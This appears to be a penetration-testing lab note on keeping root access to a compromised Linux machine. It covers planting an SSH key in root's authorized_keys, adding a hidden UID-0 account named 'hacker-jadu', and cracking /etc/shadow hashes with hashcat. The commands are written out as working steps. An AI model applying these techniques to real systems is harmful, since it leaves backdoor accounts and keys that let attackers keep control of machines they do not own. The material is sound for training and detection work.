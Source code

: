 ```yaml
---
title: Linux Persistence
draft: false
tags:
  - linux
  - persistence
  - add-user
  - ssh-keygen
---
```



## Plot

Let's say you have successfully compromised the target system as root. However, you might not have stable shell connection such as SSH or you might not know the password and only have reverse shell connection.

These connections are still shell but it is loud and ugly. It is also complicated to reproduce. 

 Below are several ways of maintaining persistence once gained shell as a root.


### SSH as root

This is my most recommended and preferred method of maintaining persistence.

First move to the root directory: `cd /root`

If there is not already, created **.ssh** directory: `mkdir .ssh`

Move in to **.ssh** directory: `cd .ssh`

Generate ssh key: `ssh-keygen -f mykey`

![](https://i.imgur.com/rnqmeIa.png)

Copy generated public key to **authorized_keys**: `cat mykey.pub > authorized_keys`

Now there should be these three files on your target root .ssh directory:

![](https://i.imgur.com/jAG7jeg.png)


Copy private key to local machine.

Back in your target system, change permission for **.ssh** directory and **authorized_keys** file: `chmod 700 .ssh` & `chmod 600 .ssh/authorized_keys`

![](https://i.imgur.com/UbAar54.png)

Now using the copied private key, you sign in to SSH as root: `ssh -i mykey root@10.10.10.13`

![](https://i.imgur.com/WTwCQHs.png)

### Add user
I can add whatever user I want to root group and this will allow me to escalate my privilege to root directly when I gain access to low privilege user shell.

I add user and set password using the commands below:
```bash
useradd -ou 0 -g 0 hacker-jadu
passwd hacker-jadu
```

![](https://i.imgur.com/BqerUVn.png)




Now I can switch to user **hacker-jadu** using `su hacker-jadu`:


![](https://i.imgur.com/angpxK5.png)



### Crack /etc/shadow

This method is not very recommended since you don't know how strict password policy is for your target environment.

Taking a look at **/etc/shadow** file, I can see hashed password for the previous set user **hacker-jadu**:

![](https://i.imgur.com/V5dG9C4.png)


Using hashcat, I can crack this hash which will reveal password: 

`hashcat -m 1800 hash rockyou.txt`

![](https://i.imgur.com/vf6tTDH.png)


